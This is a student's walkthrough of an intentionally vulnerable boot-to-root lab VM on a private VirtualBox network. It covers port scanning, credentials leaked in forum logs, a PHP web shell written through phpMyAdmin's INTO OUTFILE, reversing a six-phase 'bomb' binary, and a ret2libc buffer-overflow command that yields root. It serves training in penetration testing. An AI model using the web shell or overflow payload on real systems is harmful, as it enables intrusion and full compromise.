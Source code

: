 # Main way

Since bridged adapter is blocked in the school - I setup kali linux vm and boot-to-root vm through host-only adapter.
I created local network through *VirtualBox->File->Host network manager*, and it's ip *192.168.56.1/24*.
Now, there is a local network with kali vm, boot-to-root vm and host computer.
And kali will see only host computet and boot-to-root vm.
My kali linux ip is 192.168.56.101 (through * ip a *).
And we need to find out how can we interact with boot-to-root vm. For this I check all available ports im my local network with * nmap 192.168.56.1-225 *

For only one non host port in my local network I received:
Nmap scan report for 192.168.56.102
Host is up (0.0010s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps

So boot-to-root vm running on 192.168.56.102 ip, and have few open ports.

On http there is site, which is pretty empty, I check it html source code and there is nothing interesting in it. 
After that I scanned it with * skipfish -o path_to_save http://192.168.56.102 * and * nikto -h http://192.168.56.102 *, and not found thomething interesting.

There is another open port which could be scanned, it's https.
using * nikto -h https://192.168.56.102 * we recieve few interesting dirs: forum, webmail, phpmyadmin

On forum there are 4 topics and only one is iteresting, topic *Probleme login* where user *lmezard* push logs with attempts to log in.

In these logs we can see, what username lmezard used trying to log in, it's *Failed password for invalid user 'username'* 
And there is interesting username in string * Failed password for invalid user !q\]Ej?*5K5cy*AJ *
And, these characters came up for lmezard password.

In lmezard profile we could see his email, so we go to webmail, and try the same password !q\]Ej?*5K5cy*AJ to his mail. And it's fits again.

In mail there is message * DB Access * which contains * Use root/Fg-'kKXBj87E:aJ$  *. It doesn't fit to ssh and ftp connection, but it's fit to phpmyadmin.

First of all I checked all tables in db, but all users passwords hashed and I didn't find any helpful information.
And another way to get access to server - is SQL injection through which you can access the shell.
(detailed articles about SQL injections https://null-byte.wonderhowto.com/how-to/use-sql-injection-run-os-commands-get-shell-0191405/ https://www.informit.com/articles/article.aspx?p=1407358&seqNum=2)

* SELECT  '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/forum/templates_c/hack.php' *
templates_c - dir which always need write permission, used for compiled templates. I found it through *dirbuster* and brute force dirs to write access.

After that we can run something like this * https://192.168.56.102/forum/templates_c/hack.php?cmd=pwd * and it will show pwd output * /var/www/forum/templates_c *

After a little research, we can see LOOKATME dir in home dir with other users (I used curl because more convenient output):
* curl --insecure 'https://192.168.56.102/forum/templates_c/hack.php?cmd=ls%20-la%20/home' * (--insecure because of https not safe)
drwxrwx--x 9 www-data             root                 126 Oct 13  2015 .
drwxr-xr-x 1 root                 root                 200 Apr 16 04:01 ..
drwxr-x--- 2 www-data             www-data              31 Oct  8  2015 LOOKATME
drwxr-x--- 6 ft_root              ft_root              156 Jun 17  2017 ft_root
drwxr-x--- 3 laurie               laurie               143 Oct 15  2015 laurie
drwxr-x--- 4 laurie@borntosec.net laurie@borntosec.net 113 Oct 15  2015 laurie@borntosec.net
dr-xr-x--- 2 lmezard              lmezard               61 Oct 15  2015 lmezard
drwxr-x--- 3 thor                 thor                 129 Oct 15  2015 thor
drwxr-x--- 4 zaz                  zaz                  147 Oct 15  2015 zaz

There is file password in LOOKATME dir, which contains * lmezard:G!@M6f4Eatau{sF" *

This password fit to ftp port, which contains README file - "Complete this little challenge and use the result as password for user 'laurie' to login in ssh", and fun file (which need to be solved).
(command 'get' to receive files through ftp)

### lmezard
File fun is archive (I found out it because of '0ustar' mark in file).
After unzipping (* tar -xf fun *)
There is a folder * ft_fun * with a lot of pcap files.

These files have c code, and comments which number/line it has.
So we need to write script which will correct concat them into c file.
We can use our "build_program.py" script inside this folder to get full program.
Compile and run "prog.c". Got "Iheartpwnage" password and advice to use sha-256.

### laurie
```
echo -n "Iheartpwnage" | shasum -a 256
```
Now we can connect throught ssh to laurie with "330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4" password.
There is bomb here. Bomb contains of 6 phases. We should input correct key in each stage.

gdb bomb

    disas main
    disas phase_1
    x/1cs 0x80497c0
    "Public speaking is very easy."

    disas phase_2
    Program expects 6 numbers. First is 1, and every number = prev * (index(cur) + 1)
    "1 2 6 24 120 720"

    disas phase_3
It is very difficult to read this asm code. And We downloaded cutter to decompile bomb.
```
scp -P 2222 laurie@127.0.0.1:bomb ./
```
Yeah, this way is much better.
We see switch-case condition here and there are several correct combinations.  
"0 q 777"  
"1 b 214"

phase_4  
Recursive function, which returns sum of calls this function with num - 1 and num - 2. If num < 2 function returns 1. We need 55.  
1 -> 1  
2 -> 2  
3 -> 3  
4 -> 5  
5 -> 8  
6 -> 13  
7 -> 21  
8 -> 34  
9 -> 55  
"9" is solution.

phase_5  
So we will have some sex with bytes here.
We shoud get word "giants". Program expects 6 charachters.
Logical AND with 0xF uses for each inputed character, and then get this num as index of "isrveawhobpnutfg" array.
So we need indexes: 15 0 5 11 13 1.
Look at ascii table and get characters which hexadecimal second digit are f, 0, 5, b, d, 1. It is "opekmq".

phase_6  
Program expects 6 numbers.
Inside program is array with numbers 253 725 301 997 212 432.
There are 4 cycles here.
First checks that each number is unique and 1 <= n <= 6.  
Second and third build new array from program's array with inputed indexes.
Fourth checks that new array is sorted.
So we need numbers "4 2 6 3 1 5".

README says to remove spaces when we have FULL the password. Ok, lets concatenate all strings and remove spaces.
"Publicspeakingisveryeasy.126241207201b2149opekmq426135". This is password for thor.

### thor
Use our "parse_turtle_steps.py" script and look at word "SLASH".
```
md5 -s SLASH
```
"646da671ca01bb5d84dbb5fb2238dc8e" is password for zaz.

### zaz
You can see expolit_me file there. This program takes argument and prints it. With decompiled code we can see that there is only 140 bytes buffer inside main. And strcpy is uding here. Excellent opportunity to overflow buffer and use ret2lib exploit.

We need to know system command adress and '/bin/bash' string address.

gdb exploit_me

    break main
    run
    print &system                           > 0xb7e6b060 > '\xb7\xe6\xb0\x60'
    find &system, +9999999, "/bin/sh"       > 0xb7f8cc58 > '\xb7\xf8\xcc\x58'


Now we can run this command
```
./exploit_me $(python -c "print('a' * 140 + '\xb7\xe6\xb0\x60'[::-1] + 'dumm' + '\xb7\xf8\xcc\x58'[::-1])")
```

Whaaat is going on? Whoami? A im root! System has been hacked.

Description of ret2lib exploit.
https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf

Gdb useful things.
https://darkdust.net/files/GDB%20Cheat%20Sheet.pdf
